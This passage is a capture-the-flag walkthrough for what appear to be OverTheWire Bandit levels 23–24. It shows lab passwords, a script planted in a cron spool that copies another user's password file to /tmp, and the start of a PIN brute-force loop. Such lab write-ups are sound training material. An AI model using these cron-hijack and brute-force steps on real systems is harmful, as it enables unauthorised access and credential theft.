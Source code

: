 ```
sshpass -p jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n ssh bandit23@bandit.labs.overthewire.org -p 2220
```

```
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit23@bandit:/etc/cron.d$ myname=bandit24
bandit23@bandit:/etc/cron.d$ cd /var/spool/$myname
bandit23@bandit:/etc/cron.d$ mkdir /tmp/shiro
bandit23@bandit:/etc/cron.d$ chmod 777 /tmp/shiro
bandit23@bandit:/var/spool/bandit24$ nano script.sh
Unable to create directory /home/bandit23/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit23@bandit:/var/spool/bandit24$ cat script.sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/shiro/password.txt
bandit23@bandit:/var/spool/bandit24$ chmod +x script.sh
bandit23@bandit:/var/spool/bandit24$ ls /tmp/shiro
password.txt
bandit23@bandit:/var/spool/bandit24$ cat /tmp/shiro/password.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

# Level 24

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```
sshpass -p UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ssh bandit24@bandit.labs.overthewire.org -p 2220
```

```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
bandit24@bandit:~$ mkdir /tmp/shiro
bandit24@bandit:~$ cd /tmp/shiro
bandit24@bandit:/tmp/shiro$ nano script.sh
Unable to create directory /home/bandit24/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit24@bandit:/tmp/shiro$ cat script.sh
#!/bin/bash

for i in {0000..9999}
do
echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> combinations.txt
```